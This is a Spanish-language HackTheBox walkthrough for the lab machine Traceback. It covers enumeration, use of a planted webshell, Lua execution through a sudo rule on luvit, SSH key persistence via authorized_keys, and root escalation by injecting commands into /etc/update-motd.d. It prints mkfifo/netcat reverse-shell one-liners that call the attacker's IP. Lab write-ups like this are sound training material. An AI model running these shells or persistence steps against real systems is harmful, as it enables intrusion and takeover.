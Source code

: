 ```yaml
---
title: HTB-TRACEBACK
author: Christian Gutierrez
date: 2020-11-19 14:10:00 -0500
categories: [HackTheBox, Medium]
tags: [HTB, SSH, NodeJS]
image: /assets/htb/01_traceback/portada.PNG
---
```

## Decripción del entorno
### <span style="color:green">Atacante</span>

| OS          | Kali Linux     |
| IP          | 10.10.15.14    |
### <span style="color:green">Maquina Objetivo</span>

| OS          | Linux               |
| IP          | 10.10.10.181        |
| Dificultad  | 4.8/10 / **Medium** |
| URL         | [**TraceBack**](https://www.hackthebox.eu/home/machines/profile/233)    |

## Enumeración
Se realiza la enumeración habitual para el reconocimiento e identificación de los puertos abiertos en el sistema: 
```console
$ nmap -sS -sV -sC -oN nmap_traceback 10.10.10.181
```
![Escaneo con Nmap](/assets/htb/01_traceback/01_nmap_scan.png)
_Resultado escaneo con nmap_

Se accede al puerto 80 y se infiere por contexto que el servidor ya tiene un WebShell, la cual hay que utilizar para continuar con el proceso de explotación. 
![Puerto 80](/assets/htb/01_traceback/02_puerto_80.png)
_Pagina web desplegada en el puerto 80_

Se saca un listado de las WebShell más conocidas <https://github.com/TheBinitGhimire/Web-Shells>, y se realiza un barrido utilizando **wFuzz** para identificar si alguna se encuentra persistente en el servidor: 
```console
$ wfuzz -w htb/01_traceback/webshells.dict --hc 404 http://10.10.10.181/FUZZ
```
Resultado: 
- cmd.php
    - Parametro: ?cmd=**COMANDO**
- smevk.php
    - User: **admin**
    - Password: **admin**

Una vez identificadas, se procede a validar el usuario y los privilegios que se tienen para la ejecución de comandos.
![WebShell Básica](/assets/htb/01_traceback/03_cmd_comandos_basicos.png)
_Usando shell cmd.php con comandos pwd, whoami e ifconfig_

### Usuarios de bajos privilegios
- webadmin [**Hacked**]
- sysadmin

Por medio de los Sudoers desde el usuario **webadmin** vemos que tenemos permisos para ejecutar un comando como el usuario **sysadmin**:
```console
$ sudo -l 
/home/sysadmin/luvit
```
De lo anterior se identifica que [luvit](https://luvit.io/) corresponde a un servicio **NodeJS** para el lenguaje **Lua** por lo que conserva su sintaxis y además es posible utilizarlo para ejecutar scripts **.lua** diseñados por nosotros; vamos a utilizar el metodo `os.execute()` que nos permite ejecutar comandos de sistema operativo en [LUA](https://stackoverflow.com/questions/13270346/lua-os-execute-does-not-work)

## Explotación

Una vez identificado el vector de ataque, vamos a utilizar una Shell reversa con **nc** a través de la ejecución privilegiada de `/home/sysadmin/luvit`, por lo que creamos el siguiente archivo **lua** en el directorio `/tmp/`:

```lua
os.execute("rm /tmp/cdf;mkfifo /tmp/cdf;cat /tmp/cdf|/bin/sh -i 2>&1|nc 10.10.15.14 4545 >/tmp/cdf")
```

Ejecutamos el archivo con los privilegios de **sysadmin** de la siguiente manera: 
```console
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/d.lua
```
Recibimos la conexión inversa mediante **NetCat**:
```console
$ nc -nvlp 4545
```
![Reverse Shell](/assets/htb/01_traceback/04_reverse_shell.png)
_Reverse Shell con privilegios del usuario sysadmin_

Aunque ya tenemos la shell con los privilegios **Sysadmin** que nos permiten la lectura de la flag `user.txt`, es más comodo poder conectarnos directamente al servicio SSH (22), para así tener más estabilidad y propiedades en la consola; para lograr esto, debemos agregar nuestra **llave pública SSH** al archivo `authorized_keys` del servidor victima, de esta manera, sin proporcionar credenciales podemos acceder a este. 
```console
$ echo “test” >> authorized_keys
Permission denied
```
Como no podemos realizarlo desde la shell que tenemos actualmente, creamos otro archivo **.lua** que cambie los privilegios del archivo "" y agregue nuestra key: 
```lua
file = io.open("/home/sysadmin/.ssh/authorized_keys", "w")
file:write("ssh-rsa AAAAB3NzaC1yc2EAAAADA/.../zWoMYWXUF8ZIOQp0= csl@support")
file:close()
```
Ejecutamos el nuevo script **LUA**: 
```console
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/d2.lua
```
Y accedemos al servidor mediante **SSH**: 
```console
$ ssh sysadmin@10.10.10.181
```
![SSH](/assets/htb/01_traceback/05_ssh_access.png)
_Acceso por SSH al usuario Sysadmin_

## Elevación de privilegios

Revisando los procesos en ejecución del sistema `ps aux`, vemos que el usuario root realiza la ejecución recurrente del siguiente comando. 
```console
$ /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```
Lo que inicialmente parece una copia de archivos normal entre directorios cada 30 segundos, nos revela una pista en los permisos del directorio `/etc/update-motd.d/`:
![SSH](/assets/htb/01_traceback/06_priv_etc_update.png)
_Permisos del directorio /etc/update-motd.d/_

Y recordemos que dicho directorio corresponde a los scripts de personalización de inicio o acceso mediante **SSH**, así pues, cada uno de esos script’s mostrará información o será ejecutado por el usuario **root** cuando alguien se conecta mediante **SSH**. De esta manera, si logramos algún cambio en estos scripts, lo podremos activar mediante el acceso a SSH que tenemos del usuario **Sysadmin**. 

Considerando lo anterior, agregamos el comando para que cuando se ejecute nos permita una conexión inversa a nuestro equipo, por el puerto 4545. 
```console
$ echo "rm /tmp/cdf;mkfifo /tmp/cdf;cat /tmp/cdf|/bin/sh -i 2>&1|nc 10.10.15.14 4545 >/tmp/cdf" >> /etc/update-motd.d/00-header
```
Una vez realizado, accedemos al servicio **SSH** con el usuario **Sysadmin** (para activa nuestro payload) y a su vez, recibimos la conexión inversa en nuestro equipo, esta vez con privilegios de **root**. 

Otra forma de acceder sin utilizar la shell reversa, implicaría el mismo principio de habilitar nuestras llaves en el servicio **SSH** del usuario **root**: 

```console
sysadmin@traceback:/etc/update-motd.d$ echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> 00-header 
```

Bytez ;)